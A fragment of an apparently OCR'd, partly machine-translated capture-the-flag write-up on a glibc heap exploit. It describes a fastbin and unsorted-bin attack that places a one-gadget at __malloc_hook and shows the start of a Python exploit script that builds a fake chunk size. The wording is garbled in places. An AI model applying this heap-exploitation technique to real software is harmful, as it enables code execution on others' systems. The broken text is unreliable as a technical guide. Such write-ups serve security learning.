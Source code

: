```
0x555555757100: 0x0     0x0

0x555555757110: 0x0     0x0

0x555555757120: 0x0     0x0

0x555555757130: 0x0     0x0



```







```

libc : 0x7ffff7a23d28 ("malloc_hook")

```



At this time our FD is already near the malloc hook and is not ready for blasting.


### 第二步


We only need to release the fix by releasing a chunk of size 0x71.






### third step


Take advantage of unsortebin&#39;s attacking techniques and use the editing function to write onegadet.






##分析exp






Assign `3` `chunk`, set `p64(0x61)` at `B + 0x78`, the function is `fake size` for the following `fastbin attack`






```python

create(0x18,0) # 0x20

create(0xc8,1) # d0

create(0x65,2)  # 0x70



info("create 2 chunk, 0x20, 0xd8")

fake = "A"*0x68

fake += p64(0x61)  ## fake size
```